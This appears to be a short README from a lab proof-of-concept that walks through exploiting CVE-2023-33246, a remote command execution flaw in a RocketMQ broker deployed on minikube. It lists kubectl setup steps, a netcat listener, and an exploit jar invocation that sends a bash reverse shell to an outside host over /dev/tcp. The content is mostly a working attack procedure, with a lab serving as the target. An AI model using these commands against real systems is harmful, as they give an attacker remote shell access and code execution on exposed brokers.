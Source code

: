 1. Apply the configMap:
   
```
kubectl create configMap broker-config --from-file=broker.conf=/home/osboxes/kube-poc/3-cve-2023-33246/conf/broker.conf
```
2. kubectl apply -f <config>.yaml
3. kubectl expose pods rmqbroker --type=NodePort --port=10911
4. nc -lnvp
5. minikube service list
6. Get the IP:Port that is given for rmqbroker
7. Use it in the following command:
```
java -jar CVE-2023-33246.jar -ip "<IP:PORT FROM STEP 6>" -cmd "bash -i >& /dev/tcp/192.168.247.133/9999 0>&1"
```
